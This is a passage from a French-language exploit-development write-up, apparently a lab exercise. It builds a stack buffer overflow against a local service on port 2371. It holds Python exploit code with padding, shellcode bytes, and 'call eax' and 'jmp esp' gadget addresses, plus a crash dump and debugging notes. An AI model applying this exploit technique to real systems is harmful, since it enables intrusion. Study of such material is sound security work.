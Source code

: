 ```python
shellcode += b"\x86\xfb\x85\x8b\xab\xe8\xa4\x1b\x14"

# Utilise l'adresse d'une instruction déjà présente dans le binaire
# qui saute sur l'adresse contenue dans EAX
nop_call_eax = b"\x1f\x21\x40\x00"

buffer = shellcode + b"\x90" * (1702 - len(shellcode)) + nop_call_eax * 10
sock = socket.socket()
sock.connect(("127.0.0.1", 2371))
sock.recv(1024)
sock.send(buffer + b"\r\n")
sock.close()
```

Et là c'est la douche froide :

```
Unhandled exception: page fault on write access to 0xb80185f6 in 32-bit code (0x0135f563).
Register dump:
 CS:0023 SS:002b DS:002b ES:002b FS:0063 GS:006b
 EIP:0135f563 ESP:0135f960 EBP:0135f47b EFLAGS:00010202(  R- --  I   - - - )
 EAX:00005001 EBX:0135f5a6 ECX:0135f958 EDX:00000000
 ESI:0135f964 EDI:00000050
Stack dump:
0x0135f960:  f5806d63 5c110002 0138a8c0 00000005
0x0135f970:  02020202 536e6957 206b636f 00302e32
0x0135f980:  00000000 007321c0 00720000 00000000
0x0135f990:  7ffb2c00 007202b0 00000000 00723d24
0x0135f9a0:  007321c8 7ffb2c00 0135f9d0 00732101
0x0135f9b0:  00000000 00732078 00720000 00000000
Backtrace:
=>0 0x0135f563 (0x0135f47b)
0x0135f563: addb	%ah,0x35(%ecx,%edi,8)
```

On voit que le code tente d'écrire à `[ecx+edi*8]+0x35` (il me semble car ce n'est pas la notation que j'utilise habituellement :p) qui correspond à une zone mémoire non mappée.

Quel est le problème ? Potentiellement le shellcode place des données sur la stack et en le faisant se modifie lui-même ce qui provoque l'exécution de code cassé.

J'ai utilisé différents shellcodes et au final il y avait toujours un problème.

J'ai finalement placé le shellcode après l'adresse de retour avec l'utilisation d'un `jmp esp` comme gadget (présent dans la DLL) :

```python
jmp_esp = b"\xb8\x12\x50\x62"

buffer = b"a"*1702 + jmp_esp + b"\x90" * 8 + shellcode
sock = socket.socket()
sock.connect(("127.0.0.1", 2371))
sock.recv(1024)
sock.send(buffer + b"\r\n")
sock.close()
```
